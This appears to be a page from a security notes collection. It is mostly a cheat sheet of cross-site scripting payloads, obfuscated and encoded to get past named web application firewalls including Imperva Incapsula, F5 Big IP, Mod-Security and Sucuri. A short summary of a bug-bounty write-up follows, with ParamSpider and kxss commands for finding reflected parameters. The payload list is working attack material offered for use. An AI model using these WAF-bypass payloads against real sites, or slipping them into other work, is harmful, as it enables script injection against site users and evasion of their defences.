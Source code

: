 ## WAF Bypass
--------------------------------------------------------------------
Imperva Incapsula:
%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
<img/src="x"/onerror="[JS-F**K Payload]">
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\ert\`1\``'>
--------------------------------------------------------------------WebKnight:
<details ontoggle=alert(1)>
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
--------------------------------------------------------------------
F5 Big IP:
<body style="height:1000px" onwheel="[DATA]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="[JS-F**k Payload]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
--------------------------------------------------------------------Barracuda WAF:
<body style="height:1000px" onwheel="alert(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
--------------------------------------------------------------------
PHP-IDS:
<svg+onload=+"[DATA]"
<svg+onload=+"aler%25%37%34(1)"
--------------------------------------------------------------------
Mod-Security:
<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
--------------------------------------------------------------------
Quick Defense:
<input type="search" onsearch="aler\u0074(1)">
<details ontoggle="aler\u0074(1)">
--------------------------------------------------------------------
Sucuri WAF:
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
--------------------------------------------------------------------


# find 4 Cross-site scripting (XSS)
How I was able to find 4 Cross-site scripting (XSS) on vulnerability disclosure program ?
https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16

1. I used ParamSpider for finding some interested parameters.
```sh
python3 paramaspider -d example.com -o parameters.txt 
```

2. see every reflected parameters and unfiltered values
```sh
cat parameters.txt | kxss 
cat results/tomtom.com.txt | kxss | tee tomtom.com.kxss
```
The vulnerable parameter for XSS should have Unfiltered : [“ ‘ < > $ | ( ) ` : ; { } ]

3. try XSS payloads.
